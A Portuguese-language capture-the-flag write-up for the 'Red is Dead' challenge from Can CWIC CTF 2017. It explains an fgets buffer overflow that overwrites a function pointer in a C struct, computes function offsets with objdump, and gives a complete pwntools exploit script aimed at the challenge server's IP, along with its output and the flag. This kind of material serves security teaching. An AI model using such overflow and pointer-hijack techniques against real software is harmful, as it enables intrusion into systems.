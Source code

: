 ```yaml
---
title:  "Red is Dead - Can CWIC CTF 2017"
date:   2017-10-14 10:47:06
categories: [write-ups]
tags: [Can CWIC CTF 2017]
---
```


Analisando a estrutura `user` nós nos deparamos com uma variável color (8 bytes), uma variável name (8 bytes) e um ponteiro (8 bytes)
sendo uma estrutura de 24 bytes em sistemas 64 bits

``` c
struct user {
    char color[8];
    char name[8];
    void (*next)(struct user*);
};
```

linha 17 a  20 não importa, vamos pular e ir para as funções `success_knight` e `success_king`.
``` c
void success_knight(struct user *user) {
    printf("Keeper: Right. Off you go.\n");
    user->next = NULL;
}

void success_king(struct user *user) {
    printf("Keeper: What? I don't know that! Auuuuuuuugh!\n");
    printf("FLAG\n");
    user->next = NULL;
}
```
temos duas funções, uma `success_knight` e uma `success_king`, essa foi fácil, a função `success_king` é a que entrega a
flag, e a `success_knight` é apenas um caminho que não vai dá em nada, então descartamos ela!

vamos para proxima função `check_knight`.
``` c
void check_knight(struct user *user) {
    user->next = success_knight;
    printf("Keeper: What is your favorite color?\n");
    char *res = fgets(user->color, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->color);
    if (strcmp(user->color,"red")) {
        user->next = dead;
    }
}
```
Observando a linha 36 me deparei com um overflow
``` c
char *res = fgets(user->color, sizeof(struct user), stdin);
```
Aqui ele tá usando o sizeof para pegar a quantidade de bytes da estrutura user e definir
na variável color, ou seja, o que era 8 bytes agora virou 24 bytes!, o que isso nos ajudará?
poderemos fazer um buffer overflow que retornará alguns vazamentos de endereços!.

``` c
void check_king(struct user *user) {
    user->next = success_king;
    printf("Keeper: What is the air-speed velocity of an unladen swallow?\n");
    printf("%s: What do you mean?\n", user->name);
    char *res = fgets(user->color, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->color);
    user->next = success_king;
    if (strcmp(user->color,"An African or European swallow?")) {
        user->next = dead;
    }
}
```

``` c
void start(struct user *user) {
    printf("Keeper: Stop! What is your name?\n");
    char *res = fgets(user->name, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->name);

    size_t len = strlen(user->name);
    if (len < 2) { printf("Keeper: Sorry `%s', your name is too short\n", user->name);
        user->next = NULL;
        return;
    }

    if(!strncmp(user->name, "Arthur", 6)) {
        user->next = check_king;
        printf("Arthur: It is Arthur, King of the Britons.\n");
    } else {
        user->next = check_knight;
        printf("%s: Sir %s of Camelot.\n", user->name, user->name);
    }
}
```

Bem, nós poderia começar com o nome `Arthur` e nós iria para `check_king`fazendo a substituição do próximo usuário, mas não havia como ir para o check seguinte!

então nós iria para `user->next = success_king;` que nos daria a flag, foi o que eu pensei, porém, not so easy!

``` c
chomp(user->color);
    user->next = success_king;
    if (strcmp(user->color,"An African or European swallow?")) {
        user->next = dead;
```

Para ir para o `success king` isso era impossível, pois o comprimento da string era (31) maior do que o número de bytes para a cor (24), portanto, o strcmp sempre retornaria verdadeiro, e o próximo usuário iria para dead.

Portanto o check correto é o `check_knight`
``` c
if (strcmp(user->color,"red")) {
    user->next = dead;
}
```

Temos que burlar a cor para red, isso é fácil já que o fgets ler bytes nulos nós fazeria com`‘red\0’`, cor burlada
agora vamos ajeitar o caminho do `success_king`

Dando um objdump -t <nome do arquivo> teremos o andress das minhas duas funções `success_king` e `success_knight`

``` c
000000000040084e success_king
000000000040082a success_knight
```

Agora para calcular o deslocamento basta diminuir o andress de uma função pela outra

``` python
>>> hex (0x000000000040084e - 0x000000000040082a)
'0x25'
>>> 0x25
37
```

Temos nossa distancia de uma função para outra, `37`, então, teremos que subtrair do andress do `check_king`
tendo tudo que precisamos, é hora do solve

``` python
from pwn import *
from struct import pack, unpack
from time import sleep

def packed(blank):
    return pack("<q", blank)

r = remote('159.203.38.169', 5683)
r.recv(1024)

print("[ok] Bufffer Overflow]... ")
r.send('0x8bytes' + '\n')
time.sleep(0.7)

print("[ok] Address of check_knight...")
output = r.recv(1024).strip()
andress = output[8:14] + '\x00\x00'
andress = unpack("<q", andress)[0]
time.sleep(0.7)

print("[OK] Address of success_king...")
andress += -37
time.sleep(0.7)

print("[OK] Success_king...")
r.send('red\0' + '0x00' + '0x000000' + packed(andress))
time.sleep(0.7)

output = r.recv(1024)
print(output[output.find('\nFLAG'):])
r.close()
```

``` c
[+] Opening connection to 159.203.38.169 on port 5683: Done
[ok] Bufffer Overflow]... 
[ok] Address of check_knight...
[OK] Address of success_king...
[OK] Success_king...

FLAG{Y0uCr0ss3dTh3Br1g30fD3ath}
```

`FLAG{Y0uCr0ss3dTh3Br1g30fD3ath}`

[Download da challenge](https://www.sendspace.com/file/m9mm2s){:target="_blank"}

Agradecimentos ao Mateus Pimentel

